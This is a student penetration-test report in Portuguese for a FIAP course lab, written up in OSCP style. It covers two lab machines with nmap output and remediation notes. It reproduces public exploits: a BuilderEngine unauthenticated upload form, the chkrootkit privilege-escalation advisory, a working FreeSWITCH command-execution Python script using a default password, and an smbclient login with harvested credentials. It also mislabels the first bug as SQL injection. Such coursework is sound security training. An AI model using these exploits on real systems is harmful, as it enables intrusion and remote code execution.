







# Relatório de Teste de Intrusão

**Assunto**

Relatório de teste de intrusão para laboratório interno e exame da FIAP Coin.

**Data**

13/11/2021

**Auditor(es)**

| **Nome**              | **FIAP ID** |
| --------------------- | ----------- |
| Guilherme Alves Peres | RM86055     |

**Localização**

São Paulo, Brasil

**Versão**

1.0

<div style="page-break-after: always;"></div>

**Índice**
- [Relatório de Teste de Intrusão](#relatório-de-teste-de-intrusão)
  - [Relatório de Teste de Intrusão](#relatório-de-teste-de-intrusão-1)
    - [Introdução](#introdução)
    - [Objetivo](#objetivo)
    - [Escopo](#escopo)
    - [Requisitos](#requisitos)
  - [Resumo de Alto Nível](#resumo-de-alto-nível)
    - [Recomendações](#recomendações)
  - [Metodologia](#metodologia)
    - [Coleta de Informações](#coleta-de-informações)
    - [Intrusão](#intrusão)
      - [IP 10.2.0.11 (Muts)](#ip-102011-muts)
        - [Enumeração de Serviços (Muts)](#enumeração-de-serviços-muts)
        - [Resultado da varredura de nmap (Muts)](#resultado-da-varredura-de-nmap-muts)
        - [Vulnerabilidade de shell explorada inicialmente (Muts)](#vulnerabilidade-de-shell-explorada-inicialmente-muts)
        - [Informações adicionais sobre onde o shell inicial foi adquirido (Muts)](#informações-adicionais-sobre-onde-o-shell-inicial-foi-adquirido-muts)
        - [Explicação da vulnerabilidade (Muts)](#explicação-da-vulnerabilidade-muts)
        - [Correção da vulnerabilidade (Muts)](#correção-da-vulnerabilidade-muts)
        - [Gravidade (Muts)](#gravidade-muts)
        - [Código de prova de conceito (Muts)](#código-de-prova-de-conceito-muts)
        - [Captura de tela de inicial do shell (Muts)](#captura-de-tela-de-inicial-do-shell-muts)
        - [Escalonamento de privilégios (Muts)](#escalonamento-de-privilégios-muts)
        - [Informações adicionais sobre o escalonamento de privilégios (Muts)](#informações-adicionais-sobre-o-escalonamento-de-privilégios-muts)
        - [Vulnerabilidade explorada (Muts)](#vulnerabilidade-explorada-muts)
        - [Explicação da vulnerabilidade (Muts)](#explicação-da-vulnerabilidade-muts-1)
        - [Correção da vulnerabilidade (Muts)](#correção-da-vulnerabilidade-muts-1)
        - [Gravidade (Muts)](#gravidade-muts-1)
        - [Código de exploração (Muts)](#código-de-exploração-muts)
        - [Captura de tela de prova (Muts)](#captura-de-tela-de-prova-muts)
      - [IP 10.2.0.17 (Networked)](#ip-102017-networked)
        - [Enumeração de Serviços (Networked)](#enumeração-de-serviços-networked)
        - [Resultado da varredura de nmap (Networked)](#resultado-da-varredura-de-nmap-networked)
        - [Vulnerabilidade de shell explorada inicialmente (Networked)](#vulnerabilidade-de-shell-explorada-inicialmente-networked)
        - [Informações adicionais sobre onde o shell inicial foi adquirido (Networked)](#informações-adicionais-sobre-onde-o-shell-inicial-foi-adquirido-networked)
        - [Explicação da vulnerabilidade (Networked)](#explicação-da-vulnerabilidade-networked)
        - [Correção da vulnerabilidade (Networked)](#correção-da-vulnerabilidade-networked)
        - [Gravidade (Networked)](#gravidade-networked)
        - [Código de prova de conceito (Networked)](#código-de-prova-de-conceito-networked)
        - [Captura de tela inicial do shell (Networked)](#captura-de-tela-inicial-do-shell-networked)
        - [Escalonamento de privilégios (Networked)](#escalonamento-de-privilégios-networked)
        - [Informações adicionais sobre o escalonamento de privilégios (Networked)](#informações-adicionais-sobre-o-escalonamento-de-privilégios-networked)
        - [Vulnerabilidade explorada (Networked)](#vulnerabilidade-explorada-networked)
        - [Explicação da vulnerabilidade (Networked)](#explicação-da-vulnerabilidade-networked-1)
        - [Correção da vulnerabilidade (Networked)](#correção-da-vulnerabilidade-networked-1)
        - [Gravidade (Networked)](#gravidade-networked-1)
        - [Código de exploração (Networked)](#código-de-exploração-networked)
        - [Captura de tela de prova (Networked)](#captura-de-tela-de-prova-networked)
  - [Itens Adicionais](#itens-adicionais)

<div style="page-break-after: always;"></div>

## Relatório de Teste de Intrusão

### Introdução

O relatório de teste de intrusão do Laboratório de Segurança Ofensiva da FIAP Coin, contém todos os esforços realizados para identificar os gaps técnicos e possibilidades de reskilling.

Este relatório contém todos os itens que foram usados para avaliação do capítulo 7 do curso de Defesa Cibernética da FIAP e será avaliado do ponto de vista de exatidão e plenitude para todos os aspectos do exame.

### Objetivo

O objetivo deste relatório é garantir que o aluno tenha uma compreensão total das metodologias de teste de intrusão, bem como o conhecimento técnico para passar nas qualificações para o Offensive Security Certified Professional.

O aluno é encarregado de seguir uma abordagem metódica na obtenção de acesso aos objetivos. Este teste deve simular um teste de intrusão real e como você começaria do início ao fim, incluindo o relatório geral.

### Escopo

Nesta sessão apresento as ferramentas e detalhes do ambiente de laboratório utilizado:
* **Sistema Operacional**: Ubuntu 21.04
* **Virtualizador**: Oracle VirtualBox, versão 6
* **Ferramentas**:
  * **Enumeração**: nmap, dirb
  * **Exploração**: Metasploit, MSFConsole, smbclient

### Requisitos

O aluno deverá preencher este relatório de teste de instrusão totalmente e incluir as seguintes seções:
* Resumo geral de alto nível e recomendações (não técnicas)
* Passo a passo da metodologia e esboço detalhado das etapas tomadas
* Cada descoberta com capturas de tela incluídas, passo a passo, código de amostra e proof.txt se aplicável.
* Quaisquer itens adicionais que não foram incluídos

<div style="page-break-after: always;"></div>

## Resumo de Alto Nível

Fui encarregado de realizar um teste de intrusão interno na FIAP Coin. Um teste de intrusão interna é um ataque dedicado contra sistemas conectados internamente. O foco deste teste é realizar ataques semelhantes aos de um hacker e tentar se infiltrar nos sistemas de laboratório internos da FIAP Coin - o domínio fiap.coin. Meu objetivo geral era avaliar a rede, identificar sistemas e explorar falhas enquanto relatava as descobertas à Segurança ofensiva.

Ao realizar o teste de intrusão interna, várias vulnerabilidades alarmantes foram identificadas na rede da FIAP Coin. Ao realizar os ataques, consegui obter acesso a várias máquinas, principalmente devido a patches desatualizados e configurações de segurança deficientes. Durante o teste, tive acesso de nível administrativo a vários sistemas. Todos os sistemas foram explorados com sucesso e o acesso foi concedido. Esses sistemas, bem como uma breve descrição de como o acesso foi obtido, estão listados abaixo:

* [10.2.0.11 (Muts) - BuilderEngine Arbitrary File Upload Vulnerability and execution](#ip-102011-muts)
* [10.2.0.17 (Networked) - FreeSWITCH 1.10.1 - Command Execution](#ip-102017-networked)

### Recomendações

Eu recomendo corrigir as vulnerabilidades identificadas durante o teste para garantir que um invasor não possa explorar esses sistemas no futuro. Uma coisa a lembrar é que esses sistemas requerem patch frequentes e, uma vez corrigidos, devem permanecer em um programa de patch regular para proteger vulnerabilidades adicionais que são descobertas em uma data posterior.

<div style="page-break-after: always;"></div>

## Metodologia

Usei uma abordagem amplamente adotada para realizar o teste de intrusão que é eficaz para testar o quão bem os ambientes da FIAP Coin estão protegidos. Abaixo está um resumo de como fui capaz de identificar e explorar a variedade de sistemas e inclui todas as vulnerabilidades individuais encontradas.

### Coleta de Informações

A parte de coleta de informações de um teste de intrusão concentra-se na identificação do escopo do teste de intrusão. Durante este teste de intrusão, fui incumbido de explorar a rede do laboratório. O endereço de IP específico era:

Lab Network
* 10.2.0.0/24

### Intrusão

As partes do teste de intrusão da avaliação se concentram fortemente em obter acesso a uma variedade de sistemas. Durante este teste de intrusão, consegui obter acesso aos 2 dos sistemas 3 com sucesso.

<div style="page-break-after: always;"></div>

#### IP 10.2.0.11 (Muts)

##### Enumeração de Serviços (Muts)

| Server IP Address | Ports Open (TCP)                                           | Ports Open (UDP) |
| ----------------- | ---------------------------------------------------------- | ---------------- |
| 10.2.0.11         | 22, 53, 80, 110, 111, 139, 143, 445, 993, 995, 8080, 49364 |

##### Resultado da varredura de nmap (Muts)

```shell
sudo nmap -p- -AsV --open 10.2.0.11
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-13 12:00 EST
Nmap scan report for 10.2.0.11
Host is up (0.0013s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 aa:c3:9e:80:b4:81:15:dd:60:d5:08:ba:3f:e0:af:08 (DSA)
|   2048 41:7f:c2:5d:d5:3a:68:e4:c5:d9:cc:60:06:76:93:a5 (RSA)
|   256 ef:2d:65:85:f8:3a:85:c2:33:0b:7d:f9:c8:92:22:03 (ECDSA)
|_  256 ca:36:3c:32:e6:24:f9:b7:b4:d4:1d:fc:c0:da:10:96 (ED25519)
53/tcp    open  domain      ISC BIND 9.9.5-3 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3-Ubuntu
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_Hackers
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
110/tcp   open  pop3        Dovecot pop3d
|_pop3-capabilities: TOP RESP-CODES UIDL AUTH-RESP-CODE SASL PIPELINING STLS CAPA
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T19:17:14
|_Not valid after:  2026-10-07T19:17:14
|_ssl-date: TLS randomness does not represent time
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33683/udp   status
|   100024  1          42935/udp6  status
|   100024  1          49364/tcp   status
|_  100024  1          52895/tcp6  status
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open  imap        Dovecot imapd (Ubuntu)
|_imap-capabilities: LITERAL+ STARTTLS LOGINDISABLEDA0001 ENABLE Pre-login capabilities more LOGIN-REFERRALS ID listed SASL-IR have post-login IMAP4rev1 OK IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T19:17:14
|_Not valid after:  2026-10-07T19:17:14
|_ssl-date: TLS randomness does not represent time
445/tcp   open  netbios-ssn Samba smbd 4.1.6-Ubuntu (workgroup: WORKGROUP)
993/tcp   open  ssl/imap    Dovecot imapd (Ubuntu)
|_imap-capabilities: LITERAL+ more ENABLE Pre-login capabilities have LOGIN-REFERRALS ID listed SASL-IR post-login OK IMAP4rev1 AUTH=PLAINA0001 IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T19:17:14
|_Not valid after:  2026-10-07T19:17:14
|_ssl-date: TLS randomness does not represent time
995/tcp   open  ssl/pop3    Dovecot pop3d
|_pop3-capabilities: TOP RESP-CODES UIDL AUTH-RESP-CODE SASL(PLAIN) PIPELINING USER CAPA
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T19:17:14
|_Not valid after:  2026-10-07T19:17:14
|_ssl-date: TLS randomness does not represent time
8080/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
49364/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:A4:C8:FE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: MUTS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h20m00s, deviation: 2h53m13s, median: -3h00m00s
|_nbstat: NetBIOS name: MUTS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Unix (Samba 4.1.6-Ubuntu)
|   Computer name: muts
|   NetBIOS computer name: MUTS\x00
|   Domain name:
|   FQDN: muts
|_  System time: 2021-11-13T09:01:05-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-11-13T14:01:04
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   1.33 ms 10.2.0.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.09 seconds
```


##### Vulnerabilidade de shell explorada inicialmente (Muts)

SQL Injection

##### Informações adicionais sobre onde o shell inicial foi adquirido (Muts)

<https://www.exploit-db.com/exploits/48025>
<https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/builderengine_upload_exec>

##### Explicação da vulnerabilidade (Muts)

Este módulo explora uma vulnerabilidade encontrada no BuilderEngine 3.5.0 via elFinder 2.0. O plugin jquery-file-upload pode ser usado abusivamente para fazer upload de um arquivo malicioso, o que resultaria na execução arbitrária de código remoto no contexto do servidor web.

Através da listagem do conteúdo do servidor web, foi localizada e validada a versão da aplicação para que seja possível o uso do exploit.




Através do msfconsole faço a execução do exploit e obtenho o shell da máquina.



##### Correção da vulnerabilidade (Muts)

Atualização da aplicação, onde é corrigido os módulos e parâmetros utilizados que possibilitam o code/sql injection.

##### Gravidade (Muts)

Crítica

##### Código de prova de conceito (Muts)

```html
<!--
# Exploit Title: BuilderEngine 3.5.0 Remote Code Execution via elFinder 2.0
# Date: 18/09/2016
# Exploit Author: metanubix
# Vendor Homepage: http://builderengine.org/
# Software Link: http://builderengine.org/page-cms-download.html
# Version: 3.5.0
# Tested on: Kali Linux 2.0 64 bit
# Google Dork: intext:"BuilderEngine Ltd. All Right Reserved"

1) Unauthenticated Unrestricted File Upload:

	POST /themes/dashboard/assets/plugins/jquery-file-upload/server/php/

	Vulnerable Parameter: files[]

	We can upload test.php and reach the file via the following link:
	/files/test.php
-->
<html>
<body>
<form method="post" action="http://localhost/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
	<input type="file" name="files[]" />
	<input type="submit" value="send" />
</form>
</body>
</html>
```

##### Captura de tela de inicial do shell (Muts)


##### Escalonamento de privilégios (Muts)

Através da análise do conteúdo da máquina, é verificado a existencia de um chrootkit.




##### Informações adicionais sobre o escalonamento de privilégios (Muts)

<https://nvd.nist.gov/vuln/detail/CVE-2014-0476>

##### Vulnerabilidade explorada (Muts)

Pacote vulnerável.

##### Explicação da vulnerabilidade (Muts)

A função slapper no chkrootkit antes de 0.50 não cita caminhos de arquivo adequadamente, o que permite que usuários locais executem códigos arbitrários por meio de um cavalo de Tróia executável.

##### Correção da vulnerabilidade (Muts)

Atualização do pacote.

##### Gravidade (Muts)

Crítica

##### Código de exploração (Muts)

```shell
We just found a serious vulnerability in the chkrootkit package, which
may allow local attackers to gain root access to a box in certain
configurations (/tmp not mounted noexec).

The vulnerability is located in the function slapper() in the
shellscript chkrootkit:

#
# SLAPPER.{A,B,C,D} and the multi-platform variant
#
slapper (){
   SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
   SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
   ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
   SLAPPER_PORT="0.0:2002 |0.0:4156 |0.0:1978 |0.0:1812 |0.0:2015 "
   OPT=-an
   STATUS=0
   file_port=

   if ${netstat} "${OPT}"|${egrep} "^tcp"|${egrep} "${SLAPPER_PORT}">
/dev/null 2>&1
      then
      STATUS=1
      [ "$SYSTEM" = "Linux" ] && file_port=`netstat -p ${OPT} | \
         $egrep ^tcp|$egrep "${SLAPPER_PORT}" | ${awk} '{ print  $7 }' |
tr -d :`
   fi
   for i in ${SLAPPER_FILES}; do
      if [ -f ${i} ]; then
         file_port=$file_port $i
         STATUS=1
      fi
   done
   if [ ${STATUS} -eq 1 ] ;then
      echo "Warning: Possible Slapper Worm installed ($file_port)"
   else
      if [ "${QUIET}" != "t" ]; then echo "not infected"; fi
         return ${NOT_INFECTED}
   fi
}


The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.


Suggested fix: Put quotation marks around the assignment.

file_port="$file_port $i"


I will also try to contact upstream, although the latest version of
chkrootkit dates back to 2009 - will have to see, if I reach a dev there.
```

##### Captura de tela de prova (Muts)



<div style="page-break-after: always;"></div>

#### IP 10.2.0.17 (Networked)

##### Enumeração de Serviços (Networked)

| Server IP Address | Ports Open (TCP)                                                                                                                        | Ports Open (UDP) |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------------- | ---------------- |
| 10.2.0.17         | 135, 139, 445, 2855, 2856, 5040, 5060, 5066, 5080, 5985, 7443, 8021, 8081, 8082, 47001, 49664, 49665, 49666, 49667, 49668, 49669, 49670 |

##### Resultado da varredura de nmap (Networked)

```shell
$ sudo nmap -p- -AsV --open 10.2.0.17

Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-13 19:03 EST
Nmap scan report for 10.2.0.17
Host is up (0.00044s latency).
Not shown: 58328 closed ports, 7185 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          VERSION
135/tcp   open  msrpc            Microsoft Windows RPC
139/tcp   open  netbios-ssn      Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2855/tcp  open  msrp?
2856/tcp  open  ssl/cesdinv?
| ssl-cert: Subject: commonName=FreeSWITCH/countryName=US
| Not valid before: 2020-06-03T11:52:25
|_Not valid after:  1984-04-10T05:24:09
|_ssl-date: TLS randomness does not represent time
5040/tcp  open  unknown
5060/tcp  open  sip-proxy        FreeSWITCH mod_sofia 1.10.1~64bit
|_sip-methods: INVITE, ACK, BYE, CANCEL, OPTIONS, MESSAGE, INFO, UPDATE, REGISTER, REFER, NOTIFY, PUBLISH, SUBSCRIBE
5066/tcp  open  websocket        (WebSocket version: 13)
| fingerprint-strings:
|   GenericLines, GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad Request
|_    Sec-WebSocket-Version: 13
5080/tcp  open  sip-proxy        FreeSWITCH mod_sofia 1.10.1~64bit
5985/tcp  open  http             Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7443/tcp  open  ssl/websocket    (WebSocket version: 13)
| fingerprint-strings:
|   GenericLines, GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad Request
|_    Sec-WebSocket-Version: 13
| ssl-cert: Subject: commonName=FreeSWITCH/countryName=US
| Not valid before: 2020-06-03T11:52:25
|_Not valid after:  1984-04-10T05:24:09
|_ssl-date: TLS randomness does not represent time
8021/tcp  open  freeswitch-event FreeSWITCH mod_event_socket
8081/tcp  open  websocket        (WebSocket version: 13)
| fingerprint-strings:
|   GenericLines, GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad Request
|_    Sec-WebSocket-Version: 13
8082/tcp  open  ssl/websocket    (WebSocket version: 13)
| fingerprint-strings:
|   GenericLines, GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad Request
|_    Sec-WebSocket-Version: 13
| ssl-cert: Subject: commonName=FreeSWITCH/countryName=US
| Not valid before: 2020-06-03T11:52:25
|_Not valid after:  1984-04-10T05:24:09
|_ssl-date: TLS randomness does not represent time
47001/tcp open  http             Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc            Microsoft Windows RPC
49665/tcp open  msrpc            Microsoft Windows RPC
49666/tcp open  msrpc            Microsoft Windows RPC
49667/tcp open  msrpc            Microsoft Windows RPC
49668/tcp open  msrpc            Microsoft Windows RPC
49669/tcp open  msrpc            Microsoft Windows RPC
49670/tcp open  msrpc            Microsoft Windows RPC
4 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5066-TCP:V=7.91%I=7%D=11/13%Time=61905292%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,37,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Ver
SF:sion:\x2013\r\n\r\n")%r(GetRequest,37,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nSec-WebSocket-Version:\x2013\r\n\r\n")%r(HTTPOptions,37,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7443-TCP:V=7.91%T=SSL%I=7%D=11/13%Time=619052A5%P=x86_64-pc-linux-g
SF:nu%r(GetRequest,37,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket
SF:-Version:\x2013\r\n\r\n")%r(GenericLines,37,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n")%r(HTTPOptions,37,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Version:\x2013\r\n\r\
SF:n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8081-TCP:V=7.91%I=7%D=11/13%Time=61905292%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,37,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Versi
SF:on:\x2013\r\n\r\n")%r(GenericLines,37,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nSec-WebSocket-Version:\x2013\r\n\r\n")%r(HTTPOptions,37,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8082-TCP:V=7.91%T=SSL%I=7%D=11/13%Time=619052A5%P=x86_64-pc-linux-g
SF:nu%r(GenericLines,37,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSock
SF:et-Version:\x2013\r\n\r\n")%r(GetRequest,37,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n")%r(HTTPOptions,37,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Version:\x2013\r\n\r\
SF:n");
MAC Address: 08:00:27:EE:1C:E3 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DESKTOP-U5E0RVF, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:ee:1c:e3 (Oracle VirtualBox virtual NIC)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-11-14T00:08:05
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms 10.2.0.17

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 279.14 seconds
```


##### Vulnerabilidade de shell explorada inicialmente (Networked)

Comandos através da API executada pela aplicação FreeSWITCH


Foi feito o teste através do metasploit, porém não consegui criar uma sessão.



Realizei a cópia do exploit localmente para realizar a execução do mesmo manualmente.




Foi verificado que alguns parâmetros que eram enviados para a execução não eram apresentados devido a codificação do mesmo, fiz a alteração no script.


##### Informações adicionais sobre onde o shell inicial foi adquirido (Networked)

<https://www.exploit-db.com/exploits/47799>

##### Explicação da vulnerabilidade (Networked)

Este módulo usa a interface de socket de evento FreeSWITCH para executar comandos do sistema usando o comando API do sistema. O serviço de socket de evento é habilitado por padrão e escuta na porta TCP 8021 na interface de rede local. E

##### Correção da vulnerabilidade (Networked)

Atualização de pach de segurança já disponibilizado.

##### Gravidade (Networked)

Alta

##### Código de prova de conceito (Networked)

```py
# Exploit Title: FreeSWITCH 1.10.1 - Command Execution
# Date: 2019-12-19
# Exploit Author: 1F98D
# Vendor Homepage: https://freeswitch.com/
# Software Link: https://files.freeswitch.org/windows/installer/x64/FreeSWITCH-1.10.1-Release-x64.msi
# Version: 1.10.1
# Tested on: Windows 10 (x64)
#
# FreeSWITCH listens on port 8021 by default and will accept and run commands sent to
# it after authenticating. By default commands are not accepted from remote hosts.
#
# -- Example --
# root@kali:~# ./freeswitch-exploit.py 192.168.1.100 whoami
# Authenticated
# Content-Type: api/response
# Content-Length: 20
#
# nt authority\system
#

#!/usr/bin/python3

from socket import *
import sys

if len(sys.argv) != 3:
    print('Missing arguments')
    print('Usage: freeswitch-exploit.py <target> <cmd>')
    sys.exit(1)

ADDRESS=sys.argv[1]
CMD=sys.argv[2]
PASSWORD='ClueCon' # default password for FreeSWITCH

s=socket(AF_INET, SOCK_STREAM)
s.connect((ADDRESS, 8021))

response = s.recv(1024)
if b'auth/request' in response:
    s.send(bytes('auth {}\n\n'.format(PASSWORD), 'utf8'))
    response = s.recv(1024)
    if b'+OK accepted' in response:
        print('Authenticated')
        s.send(bytes('api system {}\n\n'.format(CMD), 'utf8'))
        response = s.recv(1024).decode('latin1')
        print(response)
    else:
        print('Authentication failed')
        sys.exit(1)
else:
    print('Not prompted for authentication, likely not vulnerable')
    sys.exit(1)
```

##### Captura de tela inicial do shell (Networked)


##### Escalonamento de privilégios (Networked)

Na análise de do conteúdo dos diretórios e arquivos, foi chamada a atenção para o arquivo ```notes.txt``` o mesmo armazenava a seguinte string: ```don't forget: calcuta901```.



##### Informações adicionais sobre o escalonamento de privilégios (Networked)

Logo testei uma conexão via smbclient com o usuário de qual coletei a evidência de notes.txt

##### Vulnerabilidade explorada (Networked)

Análise de documentos e levantamento de credencial.

##### Explicação da vulnerabilidade (Networked)

##### Correção da vulnerabilidade (Networked)

Não armazenar credencial dentro da máquina.

##### Gravidade (Networked)

Crítica

##### Código de exploração (Networked)

```
smbclient \\\\10.2.0.17\\C$ -U networked
```

##### Captura de tela de prova (Networked)


<div style="page-break-after: always;"></div>

## Itens Adicionais

Apêndice 1 - Prova e conteúdo local:

| **IP (Hostname)**     | **Conteúdo user.txt**            | **Conteúdo root.txt**                   |
| --------------------- | -------------------------------- | --------------------------------------- |
| 10.2.0.13 (Muts)      | bfbb7e6e6e88d9ae66848b9aeac6b289 | a10828bee17db751de4b936614558305        |
| 10.2.0.17 (Networked) | fr9jc6sap348ckpoqw2a84nc8z0      | dfoepc84mdksp0anaue84hdk39asd02ekda09ap |